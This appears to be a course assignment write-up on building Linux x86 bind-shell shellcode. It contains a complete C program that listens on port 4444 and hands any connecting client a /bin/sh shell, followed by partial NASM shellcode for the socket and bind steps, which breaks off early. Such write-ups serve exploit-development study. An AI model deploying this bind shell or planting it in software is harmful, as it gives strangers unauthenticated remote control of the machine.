 ```yaml
---
title:  Assignment 1
description: Create a Shell Bind TCP shellcode
order: 1
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

Before we dive into assembly, let's first write a simple program in c to model the functionality.

```c
/* bind_tcp_model.c
 *  - Bind to a socket, listen for a connection, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY

int main() {
	int port = 4444;
	int sockfd, connfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Bind to socket

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = INADDR_ANY;
	bind(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Listen on socket

	listen(sockfd, 0);

	// Accept a connection

	connfd = accept(sockfd, 0, 0);

	// Route i/o through connection

	dup2(connfd, 0);
	dup2(connfd, 1);
	dup2(connfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}

```

Since the first step is creating a socket, let's look at the syscall *socketcall*, **102**.
```c
int socketcall(int call, unsigned long *args);
```
The syscall *socketcall* seems to accept a *call* parameter, so we'll take a look at those too.
```bash
> grep SYS_ /usr/include/linux/net.h

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
...
```

To create a socket we'll need SYS_SOCKET, **1**, which from our c model we know takes the following form:
```c
int socket(int domain, int type, int protocol);
```

Let's try to put all this down in assembly.

```nasm
; bind_shell_tcp.nasm
;  - Bind to a socket, listen for a connection, provide shell.

global _start

section .text
_start:
        ; int socketcall(int call, unsigned long *args)
        ; int socket(int domain, int type, int protocol)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x01 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

        xor eax, eax
        mov al, 0x66
        xor ecx, ecx
        push ecx
        inc ecx
        push ecx
        xor ebx, ebx
        mov bl, cl
        inc ecx
        push ecx
	
	mov esi, eax    ; save sockfd
        add esp, 0x10   ; clean stack

```

Great!  Now let's try the same process for *bind*.

```nasm
	; int socketcall(int call, unsigned long *args)
        ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen) 
        ; struct sockaddr_in {short int sin_family, unsigned short int sin_port, struct in_addr sin_addr, 0}
        ; eax = 0x66 (socketcall)
        ; ebx = 0x02 (bind)
        ; ecx = esp      
        ; esp => |----------|-[esp +24]-|0x00000018|0x0002|0x115C|0x00000000|0x00000000|
        ;           sockfd       addr     addrlen  AF_INET  port  INADDR_ANY  

        xor eax, eax
        mov al, 0x66
        xor ebx, ebx
        mov bl, 0x2
        xor ecx, ecx
        push ecx
        push word 0x5c11  
        push word 0x2
        mov edi, esp
        push 0x18
        push edi
        push esi
        mov ecx, esp
        int 0x80

        add esp, 0x38   ; clean stack
```

<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
